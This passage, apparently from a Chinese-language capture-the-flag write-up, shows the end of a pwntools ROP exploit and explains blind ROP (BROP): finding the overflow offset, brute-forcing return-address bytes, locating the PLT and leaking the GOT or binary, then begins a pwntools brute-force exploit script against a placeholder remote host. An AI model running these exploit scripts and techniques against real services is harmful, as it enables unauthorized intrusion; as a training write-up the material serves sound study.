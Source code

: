 ```

io.recvuntil("ROP like a PRO:")
pause()
io.send(payload1)
io.recvuntil("Good Luck!\n")
io.send(payload2)

io.interactive()
```

### BROP（盲pwn）

    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE



所谓BROP，就是盲pwn，也就是只给一个ip和端口，不给binary的pwn题。然后抓住几个关键点
 + 首先测试他在哪里溢出的，得到偏移
 + 然后覆盖返回地址为xxxxxxxxx，这里有一个常识就是32位程序地址都是0x0804xxxx
 + 然后根据这个特点，固定低字节去爆破倒数第二个字节，找到一个能输出东西地址的大致范围
 + 然后再去找具体地址
 + 然后还有一个很重要的点就是如何打印程序地址：
  + 找到函数的plt段非常重要，找到函数基地址，然后再往上就是程序的plt表地址了，然后注意plt表的每个函数的间隔是0x10的。
  + 然后得到plt表地址之后就可以通过打印自身地址来得到该地址的十六进制表示方式，从而得到got表，进而泄露程序地址，或者也可以通过打印整个程序的十六进制进而泄露出整个bin，就可以做了。程序地址指令的十六进制见下图(option-->General-->number of opcode bytes)：

<img src="/images/posts/keen/x86stackoverflow/1533832808502.png" >

注意：
+ puts 以`\x00`为止，以`\x0a`取代`\x00` 相当于printf  `%s   \n`
+ gets 以`\x0a`为止，以`\x00`取代`\x0a`
+ read 读取特定长度字符串


详细脚本如下：
```
#!/usr/bin/env python
# coding=utf-8

from pwn import *
context.log_level = "debug"
libc = ELF('libc6_2.27-3ubuntu1_i386.so')
def sploit(i, j):
    p = remote("xxxxxxxx", xxxx)
    payload = "A"*0x40c + chr(i) + chr(j) + "\x04\x08" 
    p.recv()
    p.sendline(payload)
    p.interactive()
    print p.recvline()
    print p.recvline()
    err = p.recvline()
    print err
    if "flag" in err:
```